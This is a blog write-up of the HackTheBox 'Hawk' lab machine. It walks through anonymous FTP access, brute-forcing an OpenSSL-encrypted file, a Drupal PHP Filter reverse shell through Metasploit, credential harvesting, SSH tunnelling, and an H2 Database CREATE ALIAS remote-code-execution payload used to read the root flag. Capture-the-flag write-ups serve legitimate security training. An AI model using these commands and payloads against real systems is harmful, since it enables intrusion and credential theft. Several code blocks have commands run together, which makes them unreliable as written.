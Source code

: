 ```yaml
---
layout: post
title: HackTheBox - Hawk
categories: htb
permalink: /htb-hawk
---
```


![BoxInfo]({{ site.baseurl }}/assets/htb-images/hawk/infocard.png)

Starting off with a nmap scan to enumerate ports, thus to determine the potential attack vector !

![Nmap]({{ site.baseurl }}/assets/htb-images/hawk/InitialScan-Nmap.png)

FTP is open and the header shows that I can login anonymously and that there is a folder called "messages".  Using the command:

> ftp 10.10.10.102 21

I logged in to FTP with username: Anonymous & empty password. After listing the files in the folder messages, I didn't see anything, but after listing all files with hidden files as well, I was able to find a hidden file called: ".drupal.txt.enc".

![FTP]({{ site.baseurl }}/assets/htb-images/hawk/FTPHiddenFile.png)

By the name of the file I was able to determine that it was storing an encrypted information. I had to decrypt it somehow but first I had to see what was the cipher used to encrypt the informaiton. Once I checked the file by running "file .drupal.txt.enc", I noticed that it is Base64 encoded but openssl encrypted with salted password. It was easy to decode the base64 by just running:

> base64 -d .drupal.txt.enc > decrypted.txt.enc

I did some google research and found a tool which is used to bruteforce openssl salted passwords. [Link to tool](https://github.com/glv2/bruteforce-salted-openssl)
To bruteforce the password, I ran:

```
#Dependencies to download !#dh-autoreconf <---
apt-get install dh-autoreconfmv .drupal.txt.enc drupal.txt.encbase64 -d drupal.txt.enc > decrypted.txt.encbruteforce-salted-openssl -t 6 -f /usr/share/wordlists/rockyou.txt -d sha256 -c AES-256-CBCdecrypted.txt.enc
#Password: friends
```

![BruteF-Passwd]({{ site.baseurl }}/assets/htb-images/hawk/BruteF-Passwd.png)

Now I had the password and it was time to decrypt the file and read the message.

```
#OpenSSL
openssl enc -aes-256-cbc -d -salt -base64 -in .drupal.txt.enc -md sha256 -k friends
#Drupal Admin Panel Account
#Password: PencilKeyboardScanner123
```

![Decryption-Drupal]({{ site.baseurl }}/assets/htb-images/hawk/Decryption-Drupal.txt.enc.png)

Judging by the name of the file, I had to use this password for the Drupal web server. I accessed it on port 80. After accessing Drupal, I immediately saw a login form and I tried to login with username: admin & the decrypted password from the openssl file and it worked !

![Drupal-Admin-Acces]({{ site.baseurl }}/assets/htb-images/hawk/Drupal-Admin-Acces.png)

So after doing some enumeration and looking at the HTB forum for hints I found that H2 Database which runs on port 8082 has some vulnerabilities but they didn't worked ! I went back to the Drupal web page and started enumerating it ! Section modules on the top was pretty interesting and i was able to find a module called “PHP Filter”, which when turnedon would allow me to execute PHP code, so that means I will be able to get a reverse shell ! So I accessed the modules and enabled PHP Filtering !

![phpfilter-module-drupal]({{ site.baseurl }}/assets/htb-images/hawk/phpfilter-module-drupal.png)

After enabling the PHP Filter module, I created a new article page and changed the text format to be PHP Code, after that I used msfvenom PHP reverse shell sample code by generating one and adding it in the body section, then I saved the article and accessed it and I got a reverse shell !

```
#In Metasploit
use multi/handlerset payload php/meterpreter/reverse_tcpset lhost set lport <>exploit -j -z
```

![Meterpreter-Session]({{ site.baseurl }}/assets/htb-images/hawk/Meterpreter-Session.png)

So after doing some enumeration in the root folder of the system i wasn't able to find anything as credentials for user daniel, so I went back to where Drupal was install and checked in sites/default/... for some configuration files that may contain passwords ! This link helped me to understand what to look for -> [Link]](https://www.drupal.org/docs/7/install/step-3-create-settingsphp-and-the-files-directory).So in sites/default/settings.php I have found the password for user daniel ! Now I just had to log in as daniel through ssh !

![Settings.php-Daniel-Creds]({{ site.baseurl }}/assets/htb-images/hawk/Settings.php-Daniel-Creds.jpg)

When I logged in as daniel, I was spawned in python3 interactive mode shell and I had to espace it and get bash or sh. To do this I used the python one line command to get proper TTY shell, by separating each command to be able to run then in the python interactive shell. 

```
#In Terminal
import ptypty.spawn("/bin/bash")
#Python iShell Escaped !
```

After I got a bash shell, I started enumerating the machine to find interesting information which would allow me to privilege escalate to root. When I enumerated the machine with user daniel, I wasn't able to find anything interesting, so I went back to the initial foothold and nmap scan and the target for me was now the H2 Console. When I tried to access the server on port 8082 it said that it didn't allow remote connections, which lead to my next step, to tunnel the connection to my machine and then access H2 Console ! For tunneling the connection, this website helped me to understand how to do it -> [Link](https://razorsql.com/articles/configuring_ssh_tunnels_database_connections.html).

```
#In Terminal#To get the tunnel to work through SSH
$ ssh -L 8083:10.10.10.102:8082 daniel@10.10.10.102
#Password: drupal4hawk
#Tunnel works !
```

Once I got the tunnel up and running I accessed the H2 Console on localhost with the port I set it to run on. I saw another login form.

![H2-Console-Accessed]({{ site.baseurl }}/assets/htb-images/hawk/H2-Console-Accessed.jpg)

With some questioning and testing here, I was able to login, but the trick to login to H2 Console was that I had to set the database to run in memory. I gathered some useful information before I accessed the H2 Console, such as potential usernames and passwords.

```
#Usernames: drupal, admin, sa, root, daniel
#Passwords: PencilKeyboardScanner123, drupal4hawk, xxj31ZMTZzkVA
```

A website that helped me to get the memory database is this one [Link](https://www.javatips.net/blog/h2-in-memory-database-example). So once I tried all of the credentials I found, the one combo that worked and worked for SSH or daniel account !

```
#Creds for H2 Console
User Name: daniel
Password: drupal4hawk
```

![H2Console-Terminal
]({{ site.baseurl }}/assets/htb-images/hawk/H2Console-Terminal.jpg)

Earlier I have found a great blog expaining a vulnerability in H2 Database where if no user was set, the database will use the default one sa:*blank_password*, so by accessing the H2 Console, I could send commands and get a reverse shell !
Link to the blog exaplaining the vulnerability and exploit -> [Link](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html).
So, I was able to get the root flag by using the exploit code this person has written. Since the H2 Database is running as root user I just have to enter the command, make a small changeto the exploit code and get the root flag !

```
#Exploit code to output “id”

CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException{ java.util.Scanner s = newjava.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\A"); returns.hasNext() ? s.next() : ""; }$$;CALL SHELLEXEC('id')
```

So by changing ‘id’ in line CALL SHELLEXEC to ‘cat /root/root.txt’ I am able to get the root flag !

![ExploitCode-RootFlag]({{ site.baseurl }}/assets/htb-images/hawk/ExploitCode-RootFlag.jpg)